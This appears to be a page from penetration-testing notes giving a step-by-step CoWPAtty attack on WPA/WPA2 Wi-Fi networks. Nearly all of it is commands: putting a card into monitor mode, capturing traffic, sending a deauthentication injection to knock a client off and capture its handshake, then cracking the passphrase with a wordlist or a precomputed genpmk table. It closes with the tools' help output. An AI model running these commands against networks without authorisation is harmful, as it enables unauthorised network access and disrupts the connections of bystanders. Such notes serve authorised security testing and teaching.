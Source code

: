 # CoWPAtty Attack (WPA/WPA2)

Use CoWPAtty to crack the password in either dictionary mode (plaintext) or hash mode. The latter is quicker.

## Commands

* Run [reconnaissance](../reconnaissance.md) first

```bash
# Install cowpatty/genpmk
* Run `sudo apt-get install cowpatty` to install it

# Start monitor mode
sudo airmon-ng start wlan0

# Create and source config file as noted above
# Start a screen session with a horizonal split screen

# Restart monitoring but filtered with output saved to PCAP. Make sure CLIENT is found.
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG --output-format pcap wlan0mon

# Do one deauth injection attack while still monitoring
sudo aireplay-ng -0 1 -a $BSSID -c $CLIENT wlan0mon

# Wait for the four-way handshake to appear in airodump-ng window.
# Stop airodump-ng when it appears
qq

# Check if four-way handshake is indeed valid
cowpatty -r $PCAP -c

# Crack the password in dictionary mode (slowest)
cowpatty -r $PCAP -f $WORDLIST -s $SSID

# Crack the password in hash mode (fastest)

## Generate a RAINBOW table using a wordlist and filter by SSID
genpmk -f $WORDLIST -d $RAINBOW -s $SSID

## Crack the password with the RAINBOW table and filter by SSID
cowpatty -r $PCAP -d $RAINBOW -s $SSID
```
## References

* [cowpatty](https://www.willhackforsushi.com/?page_id=50)

```text
cowpatty -h
cowpatty 4.8 - WPA-PSK dictionary attack. <jwright@hasborg.com>

Usage: cowpatty [options]

        -f      Dictionary file
        -d      Hash file (genpmk)
        -r      Packet capture file
        -s      Network SSID (enclose in quotes if SSID includes spaces)
        -c      Check for valid 4-way frames, does not crack
        -h      Print this help information and exit
        -v      Print verbose information (more -v for more verbosity)
        -V      Print program version and exit
```

```text
genpmk -h
genpmk 1.3 - WPA-PSK precomputation attack. <jwright@hasborg.com>
Usage: genpmk [options]

        -f      Dictionary file
        -d      Output hash file
        -s      Network SSID
        -h      Print this help information and exit
        -v      Print verbose information (more -v for more verbosity)
        -V      Print program version and exit

After precomputing the hash file, run cowpatty with the -d argument.
```

![fourway-handshake](images/fourway-handshake.png)
